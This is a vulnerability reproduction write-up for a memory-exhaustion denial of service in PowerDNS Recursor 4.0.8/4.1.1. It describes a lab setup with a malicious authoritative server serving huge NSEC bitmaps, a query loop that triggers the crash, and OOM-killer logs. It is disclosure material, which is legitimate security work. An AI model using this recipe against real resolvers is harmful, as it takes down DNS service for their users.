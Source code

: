 # PowerDNS Recursor 4.0.8 and 4.1.1 are killed by OOM, when responses with huge NSEC bitmap is received.

## Overview

PowerDNS Recursor 4.0.8 and 4.1.1 limit the count of RR cache entries,
but they does not limit RR cache size.
Also, crafted NSEC records that include huge bitmap field consume much memory.
Therefor memory usage of pdns_recursor increases by crafted response, finally
pdns_recursor is killed by OOM.


##  Environment

same as cve-2017-15120 report.

### IP Addresses of each servers.

* root DNS server:                192.168.33.100/24
* malicious aurhoritative server: 192.168.33.101/24
* victim full service resolver:   192.168.33.102/24

### OS, Software of each servers.

#### root DNS server

* OS: CentOS 7.4 x86_64 on VirtualBox VM
* DNS: bind

#### Malicious authoritative server

* OS: CentOS 7.4 x86_64 on VirtualBox VM

#### victim full service resolver

* OS: CentOS 7.4 x86_64 on VirtualBox VM
* Memory: 4GB
* SWAP: no
* DNS: PowerDNS Recursor 4.0.8 / 4.1.1

## Setup steps of Environment

### root servers

Install CentOS 7.4 from install ISO image.

Set IP address VM to 192.168.33.100/24.

Set firewalld.

```
    # firewall-cmd --zone=public --add-service=dns --permanent
    # firewall-cmd --reload
```

Install Bind.

```
    # yum install bind bind-utils
```

Upload and extract test-files.tar.gz

```
    # cd /tmp
    # tar xzf /path/to/test-files.tar.gz
 ```

 Copy named.conf and root zone file.

```
    # cp /tmp/test-files/root.named.conf /etc/named.conf
    # cp /tmp/test-files/root.zone       /var/named/root.zone
    # chmod 644 /var/named/root.zone
```

Start named.

```
    # systemctl start  named
    # systemctl enable named
```

#### Malicious authoritative server

Install CentOS 7.4 from install ISO image.

Set IP address to 192.168.33.101/24.

Set firewalld

```
    # firewall-cmd --zone=public --add-service=dns --permanent
    # firewall-cmd --reload
```

Install Build tools.

```
    # yum install epel-release
    # yum install gcc-c++ boost-devel wget perl yaml-cpp-devel bind-utils

    # wget https://cmake.org/files/v3.10/cmake-3.10.0-Linux-x86_64.sh
    # sh cmake-3.10.0-Linux-x86_64.sh --skip-license --prefix=/usr/local
```

Install openssl 1.0.1 from source file.

```
    # wget https://www.openssl.org/source/openssl-1.1.0g.tar.gz
    # tar xzf openssl-1.1.0g.tar.gz
    # cd openssl-1.1.0g
    # ./config
    # make
    # make install
```

Upload and extract test-tools.tar.gz.

```
    # cd /tmp
    # tar xzf /path/to/test-tools.tar.gz
    # cd test-tools
    # OPENSSL_ROOT_DIR=/usr/local/ssl cmake .
    # make
```

Start DNS service foreground.

```
    # ./bin/huge_nsec_response
```

Login to authoritative server from other terminal, and check response of huge_nsec_response.

```
    $ dig \@127.0.0.1 www.example.com nsec +norec
    
    snip
    
    TYPE65531 TYPE65532 KEYDATA TYPE65534
    
    ;; Query time: 149 msec
    ;; SERVER: 127.0.0.1#53(127.0.0.1)
    ;; WHEN: Tue Jan 23 21:01:21 JST 2018
    ;; MSG SIZE  rcvd: 8783

```

### victim full service resolver

Install CentOS 7.4 from install ISO image.

Set IP address to 192.168.33.102/24.

Set firewalld

```
    # firewall-cmd --zone=public --add-service=dns --permanent
    # firewall-cmd --reload
```

Install Build tools.

```
    # yum install gcc-c++ boost-devel openssl-devel lua-devel wget bzip2 bind-utils
```

Install PowerDNS Recursor 4.1.1.

```
    # wget https://downloads.powerdns.com/releases/pdns-recursor-4.1.1.tar.bz2
    # tar xjf pdns-recursor-4.1.1.tar.bz2
    # cd pdns-recursor-4.1.1
    # ./configure
    # make
    # make install
```

Upload and extract test-files.tar.gz.

```
    # cd /tmp
    # tar xzf /path/to/test-files.tar.gz
```

Copy recursor.conf and hints file.

```
    # cp /tmp/test-files/recursor.conf /usr/local/etc
    # cp /tmp/test-files/root.hints    /usr/local/etc
```

Start pdns_recursor.

```
    # swapoff -a
    # /usr/local/sbin/pdns_recursor
```

Login to authoritative server(192.168.33.101) or other Linux machine from other terminal.
Send queries to pdns_recursor.

```
    $ i=0 ; while sleep 0.1 ; do dig @192.168.33.102 $i.example.com nsec +rec +tcp +short ; i=`expr $i + 1` ; done
```

Wait few minutes and check pdns_recurser process.

```
    # /usr/local/sbin/pdns_recursor
    Jan 24 02:35:47 PowerDNS Recursor 4.1.1 (C) 2001-2017 PowerDNS.COM BV
    Jan 24 02:35:47 Using 64-bits mode. Built using gcc 4.8.5 20150623 (Red Hat 4.8.5-16) on Jan 23 2018 21:31:47 by root@resolver.
    Jan 24 02:35:47 PowerDNS comes with ABSOLUTELY NO WARRANTY. This is free software, and you are welcome to redistribute it according to the terms of the GPL version 2.
    Jan 24 02:35:47 Reading random entropy from '/dev/urandom'
    Jan 24 02:35:47 NOT using IPv6 for outgoing queries - set 'query-local-address6=::' to enable
    Jan 24 02:35:47 Only allowing queries from: 127.0.0.0/8, 10.0.0.0/8, 100.64.0.0/10, 169.254.0.0/16, 192.168.0.0/16, 172.16.0.0/12, ::1/128, fc00::/7, fe80::/10
    Jan 24 02:35:47 PowerDNS Recursor itself will distribute queries over threads
    Jan 24 02:35:47 Inserting rfc 1918 private space zones
    Jan 24 02:35:47 Listening for UDP queries on 0.0.0.0:53
    Jan 24 02:35:47 Enabled TCP data-ready filter for (slight) DoS protection
    Jan 24 02:35:47 Listening for TCP queries on 0.0.0.0:53
    Jan 24 02:35:47 Insufficient number of filedescriptors available for max-mthreads*threads setting! (4096 < 4121), reducing max-mthreads to 2035
    Jan 24 02:35:47 Launching 3 threads
    Jan 24 02:35:47 Done priming cache with root hints
    Jan 24 02:35:47 Enabled 'epoll' multiplexer
    Jan 24 02:35:47 Done priming cache with root hints
    Jan 24 02:35:47 Done priming cache with root hints
    Jan 24 02:35:48 Could not retrieve security status update for '4.1.1' on 'recursor-4.1.1.security-status.secpoll.powerdns.com', RCODE = Server Failure
    Killed

```

See /var/log/messages.

```
    Jan 24 02:43:00 resolver kernel: pdns_recursor invoked oom-killer: gfp_mask=0x280da, order=0, oom_score_adj=0
    Jan 24 02:43:00 resolver kernel: pdns_recursor cpuset=/ mems_allowed=0
    Jan 24 02:43:00 resolver kernel: CPU: 0 PID: 17966 Comm: pdns_recursor Not tainted 3.10.0-693.el7.x86_64 #1
    Jan 24 02:43:00 resolver kernel: Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
    Jan 24 02:43:00 resolver kernel: ffff8800c1599fa0 00000000a7376734 ffff8800d7d17a70 ffffffff816a3d91
    Jan 24 02:43:00 resolver kernel: ffff8800d7d17b00 ffffffff8169f186 ffff8800d7d17b08 ffffffff812b7c3b
    Jan 24 02:43:00 resolver kernel: 0000000000000001 ffff8800d7d17aa8 ffffffff00000202 fffeefff00000000
```



